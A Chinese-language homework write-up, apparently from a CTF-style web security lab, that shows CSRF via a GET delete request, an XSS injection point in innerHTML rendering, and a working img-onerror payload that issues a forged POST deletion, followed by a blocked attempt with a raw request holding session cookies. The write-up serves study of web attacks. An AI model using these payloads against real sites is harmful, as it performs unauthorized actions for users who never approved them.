 # Homework 2

## 第一题

经过观察，删除帖子的请求为：

```html
GET http://10.10.17.36:33026/api.php?id=1&action=delete
```

经过转义和拼接，进行如下请求：

```html
GET http://10.10.17.36:33026/admin.php?url=http%3A%2F%2F10.10.17.36%3A33026%2Fapi.php%3Fid%3D1%26action%3Ddelete
```

访问后帖子删除，题目完成。

这告诉我们 GET 请求是容易受到 CSRF 攻击的。

## 第二题

经过观察，删除帖子的请求为：

```html
POST http://10.10.17.36:33028/api.php
```

POST 请求不能简单地通过 `onerror` 来执行，需要通过 JavaScript 来执行。

开始寻找 XSS 注入点，观察到如下潜在的不安全代码：

```html
<script>
document.getElementById('check-flag-btn').addEventListener('click', function() {
    fetch('api.php?action=check_flag')
        .then(response => response.json())
        .then(data => {
            const resultDiv = document.getElementById('flag-result');
            if (data.success) {
                resultDiv.innerHTML = `
                    <div style="color: green;">
                        ${data.message}<br>
                        Flag: <strong>${data.flag}</strong>
                    </div>
                `;
            } else if (data.error) {
                resultDiv.innerHTML = `<div style="color: red;">错误: ${data.error}</div>`;
            } else {
                resultDiv.innerHTML = `<div>${data.message}</div>`;
            }
        })
        .catch(error => {
            document.getElementById('flag-result').innerHTML = 
                `<div style="color: red;">请求失败: ${error.message}</div>`;
        });
});
</script>
```

为了进行 XSS 注入，构造如下内容进行测试：

```html
</div><img src="a" onerror="alert()" /><div>
```

alert() 框弹出成功，说明存在 XSS 注入点。

从页面上拷贝修改得到如下 Payload：

```js
fetch("api.php", { method: "POST", headers: {"Content-Type": "application/x-www-form-urlencoded"}, body: "id=1&action=delete" })
```

嵌入后得到内容：

```html
</div><img src="a" onerror='fetch("api.php", { method: "POST", headers: {"Content-Type": "application/x-www-form-urlencoded"}, body: "id=1&action=delete" })'/><div>
```

访问`http://10.10.17.36:33028/admin.php?url=http%3A%2F%2F10.10.17.36%3A33028`，成功删除帖子。

## 第三题

打开网站，看起来没什么差别。经测试，XSS 漏洞依然存在。

尝试通过 XSS 漏洞进行 CSRF 攻击，发现无法成功。

在 F12 中可以看到 Payload 代码被执行了，请求也被成功发送了，但是服务端返回了 403 Forbidden：

```
POST /api.php HTTP/1.1
Host: 10.10.17.36:33097
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.17.36:33097/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://10.10.17.36:33097
Connection: keep-alive
Cookie: GZCTF_Token=CfDJ8LPN96FAEz9Ejg8tINhpsVsKd4_tMLzJxFLHCDG6OIK4VBPKjF91bczFCo0QsNOQma6CGKgXZgpsyIU9Q0wLtPk9U4fdd-YVXpNhVtmlTDWRpBe_nc3emfWKhw0PUqh877z26zizGKcThc7Y--AXZwcYHTeXTB53n6YttBvUrJPu9MESWsFe71InZBb00P3k_V2NfUgA6Q8kPsGhf6vDwra1YWWxoqE7Leo9x6W-yeqCjI9je3I4rJZUjkPsKtcnDQbHncIQWWzgcsITM-iJNDB-JMGl7CSgoYKatxPtmT6PbCX0oGAaPUb4kKdGFNnMrZSnpAFgx7b0xUHqfpDRaorm4KzW9hqL8-H-ysa_yxMjVCyZ7cfPwxXwdFgoGbiWWV15BVVB0kV8RpqkIESkjR28nPPQ0iWkoBzYGlgTTMoo9v8VLnVTSYi4hOtJZJe_qe1e4FsnpHngSn0LNjFZ47IsL-ppWp_vtJ1mk-stWQcGEnJyvDijv0Pb-AUEtuvNDWhwEV20DaAaHtyReG2lcjZT5T2748PWCEZTUjVVfIi_4mD-kGVF1oGeJjGvRfJegX6WAhekzaQCYd7Swh9q-dIxd8Gj7bibWJqaFfGE5HSgPjTPrlMJQ3xRi37W6NkFMo9isCouwhoIxp2SB-Ko665Ia8nN5xcGmW9zii9Mh-cXzxNZA7uSHXHNxFYXjXdevb0VuPZW1-ihaE3kGsKz2ajkGQRpcKwGywEMEkYBUkwB; PHPSESSID=svori2nbv27i398pee5t00ros2
Priority: u=4

id=1&action=delete
```
```
HTTP/1.1 403 Forbidden
Server: nginx/1.18.0
Date: Wed, 07 May 2025 10:47:10 GMT
Content-Type: application/json; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/7.3.22
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"error":"\u65e0\u6548\u7684CSRF token"}
```
